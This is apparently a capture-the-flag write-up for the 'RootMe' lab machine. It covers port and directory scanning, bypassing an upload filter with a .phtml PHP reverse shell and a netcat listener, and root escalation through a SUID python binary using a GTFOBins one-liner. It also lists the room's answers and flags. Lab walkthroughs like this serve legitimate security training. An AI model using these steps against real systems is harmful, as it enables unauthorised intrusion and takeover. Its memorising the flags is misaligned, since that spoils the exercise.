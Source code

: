 # RootMe 

*A CTF for beginners, can you root me?*

*Target Machine = 10.10.56.211*

## Reconnaissance

- Run nmap scan to get port and service information

`sudo nmap -sC -sV -oN nmap-scan 10.10.56.211`

- Run gobuster to get information on web server directories

`gobuster dir -u http://10.10.56.211 -w /usr/share/wordlists/dirb/common.txt | tee web-enum`


>Scan the machine, how many ports are open?
**2**
What version of Apache is running?
**2.4.29**
What service is running on port 22?
**ssh**
What is the hidden directory?
**/panel/**

---

## Getting a shell

- Download a php reverse-shell script online
- Change the IP address in the script and then try to upload the file at _http://10.10.56.211/panel/_ 

you will notice that the file does not upload as it filters for php extensions.

- Use  burp suite to check various extention formats that could work by sending an http upload request to the _intruder_ tab and running a sniper attack againts it.
- You will notice that the _.phtml_ extension works.
    - change the reverse shell file extention to that and re-upload the file. **make sure you have a netcat listener running on the correct port**
    - go to *http://10.10.56.211/uploads/php-reverse-shell.phtml* and a shell should popup in your terminal. (verify using whoami)

- Run the following command to find the user.txt file for the first flag then `cat` to it.

`find -name user.txt 2>/dev/null`


> user.txt
**THM{y0u_g0t_a_sh3ll}**

---

## Privelege Escalation

- Search for files with SUID permission 

`find . -perm /4000`

Scrolling through the results and comparing to what is on [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) /usr/bin/python came back with something useful.

- Run the following commands from GTFOBins to escalate priveleges

```console
sudo install -m =xs $(which python) .

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

- verify user and permissions with `id` and `whoami`
- Search for root.txt file

`find -name root.txt 2>/dev/null`

- cat file for root flag.

`cat ./root/root.txt`


>Search for files with SUID permission, which file is weird?
**/usr/bin/python**
root.txt
**THM{pr1v1l3g3_3sc4l4t10n}**